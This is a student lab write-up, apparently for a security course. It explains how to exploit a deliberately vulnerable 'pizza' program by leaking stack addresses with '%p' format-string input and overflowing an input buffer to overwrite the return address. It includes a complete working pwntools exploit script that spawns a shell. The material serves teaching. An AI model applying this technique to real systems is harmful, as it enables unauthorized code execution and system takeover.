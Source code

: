 # Assignment 10
The goal of this assignment was to learn about control flow integrity and how to break it. I did this by using pwntools, a python library designed to exactly this. To do this we took a poorly made ,at least as far as security is concerned, program that allowed user to input data that wasn't properly checked. 

## Process
The first thing we had to do was determine what we could do to the program to break it. To do this I started off by just trying to over flow the buffers for input. There was 2 locations I was able to overflow and cause a segmentation fault, the name and the credit card input for the progam.

![Example of buffer overflow crash](https://github.com/Novaii-Yoder/CS579/assets/52936757/3cd84b7c-498e-4497-8a8d-ffdba1d527b9)

So now we know we can input our shellcode into the input and overwrite return addresses to call the shellcode, but the hard part now is finding where to overwrite the return address and what address to overwrite it with. The way I did this was by getting the program to leak an address to the stack, this way I could find an offset and use that to get the code to run. This can be done in the pizza program by feeding it a string of `%p` because of the way the program was written. The pizza program uses something like sprintf(), or printf() in the code which allows us to use format specifiers in our string input. This is really bad practice because when you pass too many specifiers and not enough input you get undefined behavior which opens your program to attacks. Because of our format specifiers '%p' we can print what ever is on that stack as pointers to the screen, so we just print a few until we see a pointer that leads to the stack. We can determine which pointers are to the stack using some common sense principals, we know that the stack grows downward and that the start of the stack is normally the max number for the virtual address space, so we know we are looking for the largest valued pointers, which happens to be the `0x7ffe2c82e8e0` value.

![The leaked pointers](https://github.com/Novaii-Yoder/CS579/assets/52936757/ccd3ec2b-297b-4e14-b145-0efc31d86d1c)

Now that we've leaked pointers we just have to determine which one to use and create an offset. Because of randomize stack locations we cant hardcode a return address to our shellcode, because everytime the program runs it would be different. So we have to to find the offset from one of the leaked pointers. I did this by using the corefiles that the cpu dumps when it crashes, so all I had to do was crash the program, which we already discovered how to do. After crashing the program I used the core file and pwntools to open it and view pointers and the stack. I used the stackpointer at the time of the crash and printed the stack around that pointer to get a glimpse of the stack.

![The printed stack](https://github.com/Novaii-Yoder/CS579/assets/52936757/875c6722-d68b-4812-9bb3-02e2baad3312)

In the image above you can see that I have already input the shellcode and crashed the program by following it with a bunch of A's. Using this glimpse into the stack we can determine 2 things: First, that the position of the stackpointer at the time of the crash is return address we want to replace. Second, we know where the adress of the shellcode is, so now we can calculate the offset.

To calculate the offset we just take the two stack address we found and subtract them from eachother. This will give us the number we need to add to the leaked address everytime we run the code and put into the return address. 
In this case we take:
~~~
    0x7ffe2c82e8e0
-   0x7ffe2c82e870
--------------------
    0x000000000070 => 112
~~~
So now we can put everything together and have the program leak addresses at runtime, and create the return address with the offset, then combine the the shellcode, a buffer of whatever, then finally the return address to the shellcode. Then we can run the program again and it will allow us to use the terminal.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/77026007-490a-4063-a853-4191e27e16fc)

## Code
~~~python3
from pwn import *

# A simple function that takes a core file and prints the stack, it prints the number entered as the total lines and prints the lines around where the stack pointer was when the program crashed.
def print_stack(core, num=20):
    rsp = core.rsp
    print("Stack")
    x = num//2
    for i in range(x, 1, -1):
        tmp = rsp + 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

    print(f"{tmp:x}\t{core.read(rsp, 8)} <------- RSP")

    for i in range(1, x):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")



#### MAIN ####

# Executable and Linkable Format
elf = ELF("./pizza")

# Set the context in pwn to machine settings
context(arch='amd64', os='linux', endian='little', word_size=64)

# Get the addresses to function names
# getname_address = elf.symbols["getname"]
# print(hex(getname_address))

# Loads in pwn's shell code as assembly
shellcode = asm(shellcraft.amd64.linux.sh())

# Prints shellcode as assembly
# print(shellcraft.amd64.linux.sh())

# Prints shellcode as hex
# print(shellcode.hex().upper())

# Start the target process we will be breaking into 
victim = process("./pizza")

# First input tricks the program into printing stack and other locations
input1 = b"%p %p %p %p %p %p %p %p %p %p"

# Get the first line of output
print(str(victim.recvline(), "latin-1"))

# Send our "name" aka "%p %p.."
victim.sendline(input1)

# Get the response and parse it into getting the stackpointer
line = str(victim.recvline(), "latin-1")
print(line)
# Subtract the offset to the start of our shellcode
addr = int(line.split(" ")[7], 16) - 112
# Create our second input, which will have the shellcode, then a bunch of garbage until the return adress to the shell code.
input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little')


line = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

# Send our shellcode 
victim.sendline(input2)

# Give the control back to us
# Now we have access to the computer as whoever ran ./pizza
victim.interactive()

victim.wait()

# This finds the corefile from a segfault and lets us parse it
# core = victim.corefile
# print_stack(core, 40)

# print(input2)
# print(disasm(core.read(core.rip,8))) # prints next instructions
exit()
~~~
